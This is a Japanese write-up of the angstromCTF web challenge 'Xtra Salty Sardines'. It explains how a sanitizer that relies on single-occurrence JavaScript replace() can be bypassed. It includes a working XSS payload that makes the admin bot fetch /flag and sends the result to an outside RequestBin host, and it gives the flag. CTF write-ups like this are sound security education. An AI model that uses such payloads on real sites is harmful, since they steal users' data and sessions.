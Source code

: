 # Xtra Salty Sardines:Web:70pts
Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co/)?  

[Source](index.js), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)  

# Solution
アクセスすると謎のイワシとフォームが出てくる。  
Xtra Salty Sardines  
[site.png](site/site.png)  
問題名やAdmin Botがあることから、XSS問のようだ。  
`<script>alert('Satoki');</script>`をPOSTするとおかしな表示となった。  
![alert.png](images/alert.png)  
HTMLは以下のようになっていた。  
```html
~~~
<body>
    <h1>Your sardine's name is &lt;script&gt;alert(&apos;Satoki');</script>!</h1>
    <p>Unfortunately, your flag is in another sardine.</p>
    <p>Want more? <a href="/">Go back</a>.</p>
</body>
~~~
```
サニタイズがおかしいことがわかる。  
配布されたソースのサニタイズ部分を見てみる。  
```JavaScript
~~~
    // no pesky chars allowed
    const name = req.body.name
        .replace("&", "&amp;")
        .replace('"', "&quot;")
        .replace("'", "&apos;")
        .replace("<", "&lt;")
        .replace(">", "&gt;");
~~~
```
`replace`なので、一度しか置換されない。  
`&"'<><script>alert('Satoki');</script>`で無事にalertされた。  
フラグはソースより`/flag`にあることがわかるため、XSSペイロードを投稿しAdmin BotにGETで取得させればよい。  
以下のXSSペイロード投稿し、生成されたURLをAdmin Botに送信し、[RequestBin.com](https://requestbin.com/)でリクエストを待ち受ける。  
```
&"'<><script>fetch("https://xtra-salty-sardines.web.actf.co/flag").then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));</script>
```
`/?s=actf{those_sardines_are_yummy_yummy_in_my_tummy}`なるflagを含むリクエストが到達した。

## actf{those_sardines_are_yummy_yummy_in_my_tummy}